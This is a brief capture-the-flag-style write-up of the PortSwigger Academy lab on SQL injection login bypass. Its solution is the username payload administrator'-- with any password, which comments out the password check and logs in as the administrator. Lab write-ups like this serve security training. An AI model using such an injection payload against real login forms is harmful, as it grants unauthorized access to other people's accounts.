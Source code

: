 ```yaml
---
title: PortSwigger - SQLi 2 - SQLi Allowing Authentication Bypass
date: 2023-03-02
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Apprentice`

## 🎯 Goal

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

## ✅ Solution

In the Username field of the Login form:

````text
administrator'--
````

Anything can be put in the password field:

````text
abc
````
